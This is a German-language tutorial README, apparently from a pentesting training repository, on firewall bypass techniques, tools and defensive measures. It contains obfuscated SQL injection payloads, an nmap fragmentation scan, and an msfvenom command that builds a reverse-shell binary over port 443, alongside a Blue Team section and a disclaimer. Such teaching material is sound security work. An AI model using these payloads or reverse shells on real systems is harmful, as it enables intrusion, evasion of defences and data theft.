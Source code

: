 # 🔥 Firewall Bypass – Techniken, Tools & Schutzmaßnahmen



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Arten von Firewalls](#arten-von-firewalls)
- [Ziel von Firewall Bypass Techniken](#ziel-von-firewall-bypass-techniken)
- [Häufige Techniken zur Umgehung](#häufige-techniken-zur-umgehung)
- [Tools zur Analyse und Bypass](#tools-zur-analyse-und-bypass)
- [Verteidigungsmaßnahmen (Blue Team)](#verteidigungsmaßnahmen-blue-team)
- [Lernressourcen)](#lernressourcen)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung

Firewalls sind Sicherheitsmechanismen, die den Netzwerkverkehr auf Basis definierter Regeln filtern. Sie dienen dazu:
- **Unerlaubte Zugriffe zu verhindern**
- **Angriffsversuche zu erkennen**
- **Verbindungen zu blockieren oder zuzulassen**

Ein **Firewall Bypass** bezeichnet die **Umgehung dieser Filtermechanismen**, z. B. durch Tarnung oder Manipulation des Traffics. Dieses Wissen ist für **Pentester** und **Security Analysts** essenziell, um Schwächen in der Konfiguration zu erkennen.


## Arten von Firewalls

| Firewall-Typ            | Beschreibung                                         |
|--------------------------|------------------------------------------------------|
| Paketfilter (Stateless)  | Analysiert nur Header (z. B. IP, Port, Protokoll)   |
| Stateful Firewall        | Erkennt Verbindungskontexte (SYN → ACK etc.)        |
| Application Firewall     | Analysiert Inhalte auf Anwendungsebene (HTTP, FTP)  |
| Web Application Firewall (WAF) | Schutz vor typischen Web-Angriffen (SQLi, XSS)     |
| Host-Based Firewall      | Lokal auf Systemen (z. B. Windows Defender Firewall) |
| Next-Gen Firewalls       | Kombinieren mehrere Funktionen inkl. IDS/IPS        |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Ziel von Firewall Bypass Techniken

- Zugriff auf gesperrte Ports oder Dienste
- Umgehen von Inhaltsscans (z. B. bei WAFs)
- Vermeiden der Detektion durch Security-Systeme
- Platzieren von Payloads oder Backdoors



## Häufige Techniken zur Umgehung

### 1. **Tarnung über erlaubte Ports**
> Firewalls blockieren oft alles außer HTTP (80), HTTPS (443), DNS (53), usw.

Beispiel:
```bash
ncat --proxy-type http --proxy 192.168.1.1:8080 target.com 443
```

Oder:

- Reverse Shell über Port 443 senden
- Malware über Port 53 (DNS-Tunnel) exfiltrieren


### 2. Payload Obfuscation

    Inhalte verschleiern, um Signaturen zu umgehen (z. B. bei WAFs)

Beispiele:
```bash
# SQLi-Befehl verschleiert:
?id=1/**/UNION/**/SELECT/**/password/**/FROM/**/users

# Unicode-Encoding
?id=1%u002f%u002aUNION%u002f%u002aSELECT...

# Hex oder Base64 verschlüsselt
```

### 3. Fragmentierung von Paketen

Durch Aufteilen des Paketinhalts auf mehrere TCP-Segmente kann die Firewall umgangen werden, wenn sie keine vollständige Rekonstruktion vornimmt.

```bash
nmap -f target.com      # Fragmentierter Scan
```

### 4. Protocol Tunneling (DNS, ICMP, HTTP)

    Verbotene Protokolle über erlaubte Protokolle transportieren

Tools:

- dnscat2 – Shell über DNS
- iodine – Internet over DNS
- httptunnel – TCP-Tunnel via HTTP
- icmpsh – Shell über ICMP


### 5. Über Ports, die der Firewall "vertrauenswürdig" erscheinen

Reverse Shell über HTTPS:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f elf > shell.elf
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tools zur Analyse und Bypass

| Tool       | Zweck                                      |
| ---------- | ------------------------------------------ |
| Nmap       | Portscans, Fragmentierung, Timing          |
| Netcat     | Manuelle Verbindungen über beliebige Ports |
| Socat      | Flexible Verbindungstunnel                 |
| Metasploit | Automatisierte Payloads & Bypasses         |
| Iodine     | DNS-Tunnel                                 |
| ICMPshell  | Shell über Ping                            |



## Verteidigungsmaßnahmen (Blue Team)

- Port-Whitelisting: Nur notwendige Ports erlauben
- Deep Packet Inspection (DPI): Inhalte auch fragmentiert scannen
- Timeout-Management: Verhindert Time-based Evasion
- IDS/IPS-Systeme: Tools wie Snort oder Suricata zur Signaturerkennung
- WAF-Härtung: Regeln regelmäßig aktualisieren, Obfuskation erkennen
- Application Layer Filtering: DNS, HTTP, ICMP gezielt prüfen



## Lernressourcen

- TryHackMe: Rooms zu „Firewall Evasion“ und „Nmap Advanced“
- HackTheBox: Viele Labs mit WAF/Firewall-Herausforderungen
- YouTube: John Hammond, The Cyber Mentor – „Firewall Evasion Techniques“
- Bücher: „The Hacker Playbook 3“, „Nmap Network Scanning“



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!